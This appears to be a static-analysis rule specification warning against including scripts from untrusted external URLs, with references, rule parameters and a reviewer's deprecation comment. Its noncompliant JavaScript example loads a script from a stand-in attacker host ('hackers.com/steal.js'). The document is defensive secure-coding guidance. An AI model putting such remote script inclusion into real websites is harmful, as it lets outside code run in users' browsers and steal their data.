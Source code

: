 == Why is this an issue?

Including content in your site from an untrusted source can expose your users to attackers and even compromise your own site. For that reason, this rule raises an issue for each non-relative URL.


=== Noncompliant code example

[source,javascript]
----
function include(url) {
  var s = document.createElement("script");
  s.setAttribute("type", "text/javascript");
  s.setAttribute("src", url);
  document.body.appendChild(s);
}
include("http://hackers.com/steal.js")  // Noncompliant
----

== Resources

* https://owasp.org/www-project-top-ten/2017/A1_2017-Injection[OWASP Top 10 2017 Category A1] - Injection
* https://cwe.mitre.org/data/definitions/829[MITRE, CWE-829] - Inclusion of Functionality from Untrusted Control Sphere
* https://www.sans.org/top25-software-errors/#cat2[SANS Top 25] - Risky Resource Management


ifdef::env-github,rspecator-view[]

'''
== Implementation Specification
(visible only on this page)

=== Message

Remove this content from an untrusted source.


=== Parameters

.domainsToIgnore
****

Comma-delimited list of domains to ignore. Regexes may be used, E.G. (.*\.)?example\.com,foo\.org
****


'''
== Comments And Links
(visible only on this page)

=== deprecates: S1829

=== on 10 Jan 2020, 10:14:47 Eric Therond wrote:
Should be deprecated:

* No compliant solution to propose
* Could be noisy <img src="http://example.com/pic.gif"> or <script src=\http://example.com/jquery.js> is pretty common
* Could be replaced by a more relevant taint analysis rule in the future

endif::env-github,rspecator-view[]
